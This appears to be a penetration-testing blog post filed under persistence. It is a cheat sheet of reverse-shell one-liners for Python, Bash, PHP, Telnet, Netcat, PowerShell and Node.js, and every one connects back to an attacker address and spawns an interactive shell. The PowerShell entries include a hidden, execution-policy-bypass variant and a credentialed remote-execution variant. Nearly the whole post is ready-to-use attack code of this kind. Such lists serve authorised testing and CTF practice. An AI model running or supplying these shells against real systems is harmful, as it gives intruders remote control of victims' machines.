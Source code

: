 ```yaml
---
description: >-
  Reverse Shells
title:  Reverse Shells              # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence,  Reverse Shells]                     # Change Templates to Writeup
tags: [persistence, reverse shell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.175",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
/bin/bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'
```

### PHP
```php
# Example 1
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'");?>
# Example 2
php -r '$sock=fsockopen(“<attacker_IP>”,<attacker_PORT>); exec(“/bin/sh -I <&3 >&3 2>&3”);'
```
Example:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:rev-shell-php)

### Telnet
```bash
telnet <attacker_IP> 4444 | /bin/bash | telnet <attacker_IP> 4445
```

### Netcat
```bash
nc <attacker_IP> <attacker_PORT> -e /bin/sh
```

### Netcat w/o “-e” option
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -I 2>&1 | nc <attacker_IP> <attacker_PORT> > /tmp/f
```

### Powershell

From a non-powershell cli, we can execute our reverse shell with this command:
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.16.3",2345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
If we are on a powershell cli, we can execute this one instead:
```powershell
Invoke-Command -ComputerName file.fulcrum.local -Credential $Creds -ScriptBlock { $client = New-Object System.Net.Sockets.TCPClient('10.10.16.3',53);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() }
```

Examples:
[Fulcrum](https://shuciran.github.io/posts/Fulcrum/#fnref:rev-powershell)

### Node JS
```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

### Firefox Plugin
An excellent plugin to craft different payloads as Reverse Shells directly from firefox:
[hacktools](https://addons.mozilla.org/es/firefox/addon/hacktools/)

